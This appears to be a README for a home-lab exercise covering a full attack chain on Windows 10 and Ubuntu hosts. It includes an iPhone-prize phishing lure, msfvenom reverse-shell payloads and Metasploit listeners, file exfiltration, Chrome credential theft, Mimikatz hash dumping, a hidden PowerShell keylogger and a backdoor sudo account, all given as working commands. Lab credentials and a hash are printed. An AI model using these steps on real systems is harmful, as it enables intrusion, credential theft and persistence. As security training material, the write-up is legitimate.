# 🔐 Post-Compromise Operations on Windows & Linux Hosts

> A complete, documented home laboratory exercise demonstrating the full attack lifecycle — from initial phishing access through post-exploitation on both **Windows 10** and **Ubuntu Linux** compromised hosts.

<div align="center">


</div>

---

## ⚠️ IMPORTANT DISCLAIMER

> **EDUCATIONAL PURPOSES ONLY**
>
> This repository documents a controlled laboratory exercise performed in an **isolated VMware environment**. All systems, credentials, and data are **test-only / dummy material**.
>
> **Unauthorized access to computer systems is illegal and unethical.** The tools and techniques demonstrated here are dual-use security tools. They should only be used against systems you **own** or have **explicit written permission** to test.
>
> The author assumes no liability for any misuse of this information. Always comply with applicable laws and ethical standards.

---

## 📑 Table of Contents

- [🎯 Project Overview](#-project-overview)
- [🏗 Lab Architecture](#-lab-architecture)
- [🔪 Complete Attack Kill Chain](#-complete-attack-kill-chain)
- [📋 Phase 1: Initial Access via Phishing Simulation](#-phase-1-initial-access-via-phishing-simulation)
- [📦 Phase 2: Malicious Payload Generation](#-phase-2-malicious-payload-generation)
  - [Windows Payload](#windows-payload)
  - [Linux Payload](#linux-payload)
- [🔌 Phase 3: Establishing Reverse Shells](#-phase-3-establishing-reverse-shells)
- [🔍 Part I — Windows 10: Post-Exploitation](#-part-i--windows-10-post-exploitation)
  - [Phase 4: Windows Host Reconnaissance](#phase-4-windows-host-reconnaissance)
  - [Phase 5: System Enumeration with WinPEAS](#phase-5-system-enumeration-with-winpeas)
  - [Phase 6: Document Discovery & Extraction](#phase-6-document-discovery--extraction)
  - [Phase 7: Browser Credential Extraction](#phase-7-browser-credential-extraction)
  - [Phase 8: Credential Dumping with Mimikatz](#phase-8-credential-dumping-with-mimikatz)
  - [Phase 9: Keylogger Demonstration](#phase-9-keylogger-demonstration)
- [🐧 Part II — Linux: Post-Exploitation](#-part-ii--linux-post-exploitation)
  - [Phase 10: Linux Host & Network Reconnaissance](#phase-10-linux-host--network-reconnaissance)
  - [Phase 11: Creating a Root-Privileged Account](#phase-11-creating-a-root-privileged-account)
- [🛠 Tools & Technologies](#-tools--technologies)
- [📸 Screenshot Evidence Index](#-screenshot-evidence-index)
- [💡 Lessons Learned](#-lessons-learned)
- [🛡 Security Recommendations](#-security-recommendations)
- [📝 Author](#-author)

---

## 🎯 Project Overview

This module demonstrates how an attacker operates **after obtaining remote command execution** on compromised hosts. What makes this lab realistic is the **complete attack lifecycle**: starting with a social engineering phishing campaign, delivering malicious payloads, establishing reverse shells, and then performing full post-exploitation activities on **both Windows and Linux systems**.

### ✅ All Module Requirements Completed

| Platform | Requirement | Status |
|----------|-------------|--------|
| **Windows** | 🎣 Initial access via phishing simulation | ✅ Completed |
| **Windows** | 🔌 Establish reverse shell (Meterpreter) | ✅ Completed |
| **Windows** | 🔍 Reconnaissance (user, OS, IP, domain) | ✅ Completed |
| **Windows** | 📁 Extract sensitive documents | ✅ Completed |
| **Windows** | 🔑 Recover browser-stored credentials | ✅ Completed |
| **Windows** | 💀 Dump credentials with Mimikatz | ✅ Completed |
| **Windows** | ⌨️ Deploy & demonstrate keylogger | ✅ Completed |
| **Windows** | 📊 WinPEAS automated enumeration | ✅ Bonus |
| **Linux** | 🔌 Establish reverse shell (Meterpreter) | ✅ Completed |
| **Linux** | 🔍 Host & network reconnaissance | ✅ Completed |
| **Linux** | 👤 Create root-privileged account | ✅ Completed |

---

## 🏗 Lab Architecture

```
                          VMware ESXi
                                |
                    Isolated Lab Network (192.168.100.0/24)
                                |
                +---------------+---------------+
                |                               |
                v                               v
         Kali Linux                  +----------+----------+
    (Attacker / Listener)            |                     |
     192.168.100.107                 v                     v
                |              Windows 10 Pro         Ubuntu Server
                |             (Victim 1)              (Victim 2)
                |              192.168.100.105         192.168.100.102
                |                    |                     |
                |   Reverse Shell    |   Reverse Shell     |
                |   (Port 4444)      |   (Port 4445)       |
                +<-------------------+---------------------+
```

| System | Role | IP Address | Operating System |
|--------|------|------------|------------------|
| **Kali Linux** | Attacker / Control Host | `192.168.100.107` | Kali Linux (Latest) |
| **Windows 10** | Victim 1 | `192.168.100.105` | Windows 10 Pro 22H2 (Build 19045) |
| **Ubuntu Server** | Victim 2 | `192.168.100.102` | Ubuntu 24.04.4 LTS (Noble Numbat) |

---

## 🔪 Complete Attack Kill Chain

```
┌─────────────────────────────────────────────────────────────────────┐
│                    INITIAL ACCESS (Phase 1)                         │
│  ┌─────────────┐     ┌──────────────┐     ┌────────────────────┐   │
│  │  Phishing   │────▶│  GitHub Repo │────▶│  Victim Downloads  │   │
│  │    Email    │     │   (Payload)  │     │  & Executes Payload│   │
│  └─────────────┘     └──────────────┘     └─────────┬──────────┘   │
└──────────────────────────────────────────────────────┼──────────────┘
                                                       │
┌──────────────────────────────────────────────────────┼──────────────┐
│                    PAYLOADS (Phase 2)                 │              │
│  ┌──────────────────────┐    ┌────────────────────┐  │              │
│  │  Windows: free.exe    │    │  Linux: l_payload  │  │              │
│  │  (x64/meterpreter/    │    │  (linux/x64/       │  │              │
│  │   reverse_tcp:4444)   │    │   meterpreter/     │  │              │
│  └──────────┬────────────┘    │   reverse_tcp:4445)│  │              │
│             │                 └─────────┬──────────┘  │              │
└─────────────┼───────────────────────────┼──────────────┼──────────────┘
              │                           │              │
              ▼                           ▼              │
┌─────────────────────────────────────────────────────────┼──────────┐
│                  COMMAND & CONTROL (Phase 3)            │          │
│                                                         │          │
│  Metasploit Listeners:                                  │          │
│    • Port 4444 ◀────── Windows 10 Meterpreter Session   │          │
│    • Port 4445 ◀────── Ubuntu Linux Meterpreter Session │          │
│                                                         │          │
└────────────────────────────┬────────────────────────────┘          │
                             │                                       │
                             ▼                                       │
┌─────────────────────────────────────────────────────────────────────┤
│                  POST-EXPLOITATION (Phases 4-11)                    │
│                                                                     │
│  ┌─────────────────────────────┐    ┌────────────────────────────┐ │
│  │     WINDOWS 10 (Phases 4-9) │    │   LINUX (Phases 10-11)     │ │
│  │                             │    │                            │ │
│  │  4. Reconnaissance          │    │  10. Host & Network Recon  │ │
│  │  5. WinPEAS Enumeration     │    │                            │ │
│  │  6. Document Extraction     │    │  11. Create Root-Privileged│ │
│  │  7. Browser Credentials     │    │      Account (Persistence) │ │
│  │  8. Mimikatz (Hash Dump)    │    │                            │ │
│  │  9. Keylogger               │    │                            │ │
│  └─────────────────────────────┘    └────────────────────────────┘ │
│                                                                     │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 📋 Phase 1: Initial Access via Phishing Simulation

To make the scenario realistic, the attack began with a **spear-phishing email** designed to socially engineer the victim into downloading and executing the malicious payload.

### The Phishing Email

The email claimed the victim had won an **iPhone 16 Pro (256GB)** valued at $1,199 in a "Summer Tech Giveaway 2026." It used urgency (48-hour deadline), authority impersonation ("Apple Promotions Team"), and step-by-step instructions to lower suspicion.

**Social Engineering Tactics:**
- 🎁 **Greed/Desire:** Free high-value product as bait
- ⏰ **Urgency:** 48-hour redemption deadline
- 🏢 **Authority:** Spoofed "Apple Promotions Team" sender
- 📝 **Specificity:** Fake reference numbers, prize IDs, and clear instructions
- 🔗 **Hosting:** Payload hosted on public GitHub for appearance of legitimacy

**Victim Instructions in Email:**
1. Download "prize redemption package" from the link
2. Extract files with password: `iphone2026`
3. Run `free.exe` to "generate activation token"


*Figure 1: Phishing email sent to victim claiming an iPhone 16 Pro prize*

### Payload Hosting on GitHub

The malicious archive was hosted on a public GitHub repository named `prize-claim-tool`, adding a layer of perceived legitimacy.


*Figure 2: Public GitHub repository hosting the malicious `claim_redemption_form.zip`*

---

## 📦 Phase 2: Malicious Payload Generation

### Windows Payload

A **Meterpreter reverse TCP shell** payload was generated for the Windows 10 victim using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.100.107 \
  LPORT=4444 \
  -f exe -o free.exe
```

| Parameter | Value |
|-----------|-------|
| Payload Type | `windows/x64/meterpreter/reverse_tcp` |
| Architecture | x64 |
| LHOST | `192.168.100.107` |
| LPORT | `4444` |
| Final EXE Size | 7,168 bytes |


*Figure 3: Msfvenom generating the Windows reverse shell payload*

The Windows payload was packaged into a **password-protected ZIP archive** (`iphone2026`) to evade basic email filters and match the phishing narrative.

```bash
zip --password "iphone2026" claim_redemption_form.zip free.exe
```


*Figure 4: Creating password-protected ZIP archive containing the Windows payload*

### Linux Payload

A separate **Linux Meterpreter reverse TCP shell** payload was generated for the Ubuntu Server victim, using a different port to avoid conflicts.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp \
  LHOST=192.168.100.107 \
  LPORT=4445 \
  -f elf -o l_payload
```

| Parameter | Value |
|-----------|-------|
| Payload Type | `linux/x64/meterpreter/reverse_tcp` |
| Platform | Linux |
| Architecture | x64 |
| LHOST | `192.168.100.107` |
| LPORT | `4445` (separate from Windows) |
| Format | ELF |
| Final ELF Size | 250 bytes |


*Figure 5: Msfvenom generating the Linux reverse TCP shell payload (l_payload)*

---

## 🔌 Phase 3: Establishing Reverse Shells

### Metasploit Listeners

Two separate Metasploit multi-handlers were configured to listen for incoming connections from each victim.

**Windows Listener (Port 4444):**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.107
set LPORT 4444
exploit
```

**Linux Listener (Port 4445):**
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.107
set LPORT 4445
exploit
```

### Sessions Established

When the victims executed their respective payloads, **two Meterpreter sessions were opened** — one for each compromised host.

**Windows Session:**
- **Connection:** `192.168.100.107:4444` ← `192.168.100.105`
- **User:** `DESKTOP-1GS67M5\PC1`


*Figure 6: Metasploit multi/handler configured for Windows reverse shell*

**Linux Session:**
- **Connection:** `192.168.100.107:4445` ← `192.168.100.102:570`
- **Meterpreter:** `x64/linux`


*Figure 7: Metasploit handler for Linux and Meterpreter session opened*

The Linux payload was made executable and run with `sudo` on the Ubuntu victim to ensure elevated privileges:

```bash
chmod +x /tmp/l_payload
sudo /tmp/l_payload
```


*Figure 8: Making the Linux payload executable and running it with sudo*

---

# 🔍 Part I — Windows 10: Post-Exploitation

---

## Phase 4: Windows Host Reconnaissance

The first post-compromise activity was gathering **situational awareness** about the compromised Windows system.

### Commands & Findings

| Command | Purpose | Key Finding |
|---------|---------|-------------|
| `whoami` | Current user | `DESKTOP-1GS67M5\PC1` |
| `ipconfig` | Network config | IPv4: `192.168.100.105` |
| `sysinfo` | System details | Windows 10 22H2, Build 19045, x64 |
| `Get-CimInstance Win32_ComputerSystem.Domain` | Domain check | `WORKGROUP` |

**Additional Details:**
- **Hostname:** `DESKTOP-1GS67M5`
- **Subnet Mask:** `255.255.255.0`
- **Default Gateway:** `192.168.100.1`
- **System Language:** `en-US`
- **Logged On Users:** 2


*Figure 9: Windows reconnaissance results — user, network, and OS information*

---

## Phase 5: System Enumeration with WinPEAS

**WinPEAS** was used for automated, comprehensive system enumeration beyond basic manual commands.

### Key Findings

| Category | Finding |
|----------|---------|
| **OS Name** | Microsoft Windows 10 Pro |
| **OS Version** | 10.0.19045 Build 19045 |
| **System Type** | x64-based PC |
| **Edition** | Professional |
| **Is Virtual Machine** | ✅ True |
| **High Integrity** | ❌ False (not elevated) |
| **Part of Domain** | ❌ False |

**Areas Enumerated:** User info, group memberships, privileges, services, environment variables, network config, security settings, installed patches, privilege escalation vectors.


*Figure 10: WinPEAS output showing detailed Basic System Information*

---

## Phase 6: Document Discovery & Extraction

### File Discovery

The attacker enumerated the victim's Desktop directory and discovered sensitive files.

```meterpreter
cd C:\\Users\\PC1\\Desktop
dir
```

**Discovered Items:**
- 📁 `asset files/` — Business & real estate information
- 📁 `finance files/` — Financial documents
- 📄 `desktop.ini`
- 🔗 `Microsoft Edge.lnk`

### Document Exfiltration

All discovered files were downloaded from the compromised host to the attacker's machine.

```meterpreter
download C:\\Users\\PC1\\Desktop /home/butch
```

**Successfully Exfiltrated to `/home/butch/`:**
- `asset files/businessinfo.txt`
- `asset files/realestateinfo.txt`
- `finance files/` (full directory)
- `desktop.ini`
- `Microsoft Edge.lnk`


*Figure 11: Meterpreter downloading Desktop contents from victim to attacker machine*

---

## Phase 7: Browser Credential Extraction

### Tool: Chromelevator

**Chromelevator** uses direct syscall-based reflective hollowing to extract Chrome browser credentials.

### Step-by-Step Execution

**1. Tool Preparation & Upload:**
```bash
unzip chrome-injector-v0.20.0.zip    # On attacker
```
```meterpreter
upload chromelevator_x64.exe C:\\Windows\\Temp    # Via Meterpreter
```


*Figure 12: Downloading and unzipping Chromelevator on Kali Linux*


*Figure 13: Confirming Chromelevator upload to `C:\Windows\Temp`*

**2. Execute Chromelevator:**
```cmd
chromelevator_x64.exe chrome -o labrat
```

**Extraction Results:**
| Item | Count |
|------|-------|
| Chrome Version | `152.0.7977.76` |
| 🍪 Cookies | 72 |
| 🔐 Passwords | 1 |
| 🎫 Tokens | 1 |


*Figure 14: Chromelevator executing and extracting Chrome credentials*

**3. Recover Credentials:**
```meterpreter
cat passwords_account.json
```

**Recovered Laboratory Credential:**
- **URL:** `https://gmail.com/`
- **Username:** `testingpen7@gmail.com`
- **Password:** `P@ssw0rd090681`


*Figure 15: Reading extracted Chrome credentials from the JSON output file*

---

## Phase 8: Credential Dumping with Mimikatz

### Mimikatz Execution

```cmd
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

### Results

**User:** `PC1` on `DESKTOP-1GS67M5`

**Extracted Password Hashes:**
- **NTLM:** `25accfc9cdecc45a3029075fc13afc36`
- **SHA1:** `fe34fa0e846bf03de53bf7c21849d7fd92cbe103`

> 💡 **Security Note:** Modern Windows protections (WDigest disabled) prevented plaintext password recovery, but NTLM hashes were still extractable — usable in pass-the-hash attacks or offline cracking.


*Figure 16: Mimikatz `privilege::debug` and `sekurlsa::logonpasswords` execution*


*Figure 17: Mimikatz output showing extracted NTLM and SHA1 password hashes*

---

## Phase 9: Keylogger Demonstration

### PowerShell Keylogger

A custom **PowerShell keylogger script** (`revshell.ps1`) was deployed to demonstrate keyboard input capture.

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Windows\Temp\revshell.ps1
```

**Features:** Hidden window, bypasses execution policy, writes to `C:\Lab\keylog.txt`.


*Figure 18: PowerShell keylogger being deployed and activated*

### Dummy Input Test

**Test Input (Notepad):** `testing testing 123`


*Figure 19: Dummy test input typed into Notepad on the victim machine*

### Keystroke Retrieval

```cmd
keys
```

**Captured Output:** `notepadtedtesting testing 123`


*Figure 20: Successfully retrieving captured keystrokes from the victim*

---

# 🐧 Part II — Linux: Post-Exploitation

---

## Phase 10: Linux Host & Network Reconnaissance

After establishing the Linux Meterpreter session, **host and network reconnaissance** was performed to gather situational awareness about the compromised Ubuntu system.

### System Reconnaissance

**Meterpreter Commands:**
```meterpreter
getuid
sysinfo
```

**Shell Commands:**
```bash
whoami
id
hostname
cat /etc/os-release
```

### Key System Findings

| Information | Value |
|-------------|-------|
| **Server Username** | `butch` |
| **Operating System** | Ubuntu 24.04 (Linux 6.8.0-138-generic) |
| **Architecture** | x64 |
| **Hostname** | `butch` |
| **User ID (uid)** | 1000 (butch) |
| **Group Memberships** | butch(4), adm(24), cdrom(27), **sudo(27)**, dip(46), plugdev(101), lxd |
| **OS Pretty Name** | Ubuntu 24.04.4 LTS |
| **Version Codename** | noble |

> ⚠️ **Critical Observation:** The user `butch` is already a member of the **`sudo` group** (GID 27), meaning this user already has **full administrative privileges** on the system. This significantly simplifies privilege escalation and account creation.


*Figure 21: Linux system reconnaissance — getuid, sysinfo, whoami, id, hostname, and os-release*

### Network Reconnaissance

**Commands Executed:**
```bash
uname -a
ip addr
ip route
cat /etc/resolv.conf
```

### Key Network Findings

| Information | Value |
|-------------|-------|
| **Kernel Version** | Linux 6.8.0-138-generic |
| **Network Interface** | `ens32` |
| **IPv4 Address** | `192.168.100.102/24` |
| **MAC Address** | `00:0c:29:df:27:8e` |
| **Default Gateway** | `192.168.100.1` |
| **DNS Resolver** | systemd-resolved |


*Figure 22: Linux network reconnaissance — uname, ip addr, ip route, and resolv.conf*

---

## Phase 11: Creating a Root-Privileged Account

### Overview

One of the primary objectives for Linux post-compromise was to **create a root-privileged account** on the compromised host. This establishes **persistence** — even if the original shell is lost, the attacker can log back in using the new account with full administrative privileges.

### Step-by-Step Account Creation

**Step 1: Verify Sudo Privileges**
```bash
sudo -l
```
**Result:** `(ALL : ALL) ALL` — unrestricted sudo access confirmed.

**Step 2: Create New User Account**
```bash
sudo useradd -m adminlab
```
Creates user `adminlab` with a home directory.

**Step 3: Set Password**
```bash
sudo passwd adminlab
```
**Password (Laboratory Dummy):** `P@ssw0rd01`

**Step 4: Add to Sudo Group**
```bash
sudo usermod -aG sudo adminlab
```
Grants administrative privileges by adding to the `sudo` group.

**Step 5: Verify Account**
```bash
id adminlab
```
**Output:** `uid=1002(adminlab) gid=1002(adminlab) groups=1002(adminlab),27(sudo)`

**Step 6: Test Root Access**
```bash
su - adminlab
sudo whoami
```
**Result:** `root` ✅ — Full root privileges confirmed.

### Significance

Creating a backdoor account with sudo privileges serves as:
1. **🔄 Persistence:** Regain access even if original shell is terminated
2. **🚪 Alternative Access:** Can log in via SSH or console with new credentials
3. **👤 Legitimate Appearance:** Account name may blend in with real admin accounts
4. **👑 Full Privileges:** Sudo group membership = complete system control


*Figure 23: Creating and verifying the `adminlab` root-privileged account on Linux*

---

## 🛠 Tools & Technologies

| Category | Tools |
|----------|-------|
| **Payload Generation** | Metasploit `msfvenom` (Windows EXE + Linux ELF) |
| **Command & Control** | Metasploit Framework (`msfconsole`), Meterpreter (x2 sessions) |
| **Windows Recon** | `whoami`, `ipconfig`, `sysinfo`, PowerShell |
| **Windows Enumeration** | WinPEAS |
| **Browser Credentials** | Chromelevator v0.20.0 |
| **Credential Dumping** | Mimikatz 2.2.0 |
| **Keylogging** | Custom PowerShell Script |
| **Linux Recon** | `whoami`, `id`, `hostname`, `cat /etc/os-release`, `uname`, `ip` |
| **Linux Persistence** | `useradd`, `passwd`, `usermod`, `sudo` |
| **Network Utilities** | Netcat (`nc`) |
| **File Archiving** | `zip` (password-protected) |
| **Payload Hosting** | GitHub Public Repository |

---

## 📸 Screenshot Evidence Index

### Windows Screenshots

| # | Filename | Description | Figure |
|---|----------|-------------|--------|
| 1 | `phishingemailsample.png` | Phishing email (iPhone prize scam) | Fig 1 |
| 2 | `FREE.EXE LINK.png` | GitHub repo hosting malicious payload | Fig 2 |
| 3 | `msfvenom.png` | Msfvenom Windows payload generation | Fig 3 |
| 4 | `free.exezipfile.png` | Password-protected ZIP packaging | Fig 4 |
| 5 | `unzippingmaliciousshell.png` | Victim extracting Windows payload | — |
| 6 | `msfconsole.png` | Metasploit Windows listener config | Fig 6 |
| 7 | `uploading chromelev and ps1 script to windows.png` | Meterpreter session & tool upload | Fig 7 (old) |
| 8 | `sysinfo and ipconfig.png` | Windows reconnaissance results | Fig 9 |
| 9 | `winPeas Basic info.png` | WinPEAS system enumeration | Fig 10 |
| 10 | `extract documents.png` | Document extraction via Meterpreter | Fig 11 |
| 11 | `downloaded and unzipping chromelevator.png` | Chromelevator tool preparation | Fig 12 |
| 12 | `chromelev directory confirmed.png` | Chromelevator upload confirmation | Fig 13 |
| 13 | `executing chromelev.png` | Chromelevator execution & results | Fig 14 |
| 14 | `chrome password retrieve.png` | Chrome credential recovery | Fig 15 |
| 15 | `mimikatz1.png` | Mimikatz command execution | Fig 16 |
| 16 | `mimikatz2.png` | Mimikatz hash extraction results | Fig 17 |
| 17 | `ps1 script for keylogger.png` | PowerShell keylogger deployment | Fig 18 |
| 18 | `windows keylog test.png` | Dummy keylogger test input | Fig 19 |
| 19 | `keylogs retrieve.png` | Keystroke retrieval results | Fig 20 |

### Linux Screenshots

| # | Filename | Description | Figure |
|---|----------|-------------|--------|
| 20 | `01-linux-payload.png` | Msfvenom Linux payload generation | Fig 5 |
| 21 | `02-linux-session.png` | Metasploit Linux listener & session | Fig 7 |
| 22 | `02-linux-run-payload.png` | Linux payload execution with sudo | Fig 8 |
| 23 | `04-linux-recon.png` | Linux system reconnaissance | Fig 21 |
| 24 | `05-linux-netrecon.png` | Linux network reconnaissance | Fig 22 |
| 25 | `06-Create-a-root-privileged-account.png` | Root-privileged account creation | Fig 23 |

---

## 💡 Lessons Learned

### Windows-Specific Lessons

1. **Social engineering remains highly effective** — A well-crafted phishing email can bypass technical controls by exploiting human psychology.
2. **Modern Windows protections work but are imperfect** — WDigest being disabled prevented plaintext recovery, but NTLM hashes were still extractable.
3. **Browser-stored credentials are a high-value target** — Tools like Chromelevator demonstrate why enterprise password managers are preferable.
4. **Document exfiltration is trivial with Meterpreter** — Downloading files from the victim requires only a single command.

### Linux-Specific Lessons

5. **Default user configurations create risk** — The default Ubuntu user is automatically in the `sudo` group, meaning any compromise immediately grants full system control.
6. **Account creation is simple but powerful persistence** — Adding a new user to `sudo` creates a permanent backdoor that is difficult to detect.
7. **Linux reconnaissance is fast and informative** — Standard commands provide a complete picture of the system in seconds.

### Cross-Platform Lessons

8. **Initial access is just the beginning** — Obtaining a reverse shell is the starting line, not the finish line.
9. **Simultaneous multi-platform control** — Using separate ports (4444 for Windows, 4445 for Linux) allows controlling multiple compromised hosts simultaneously.
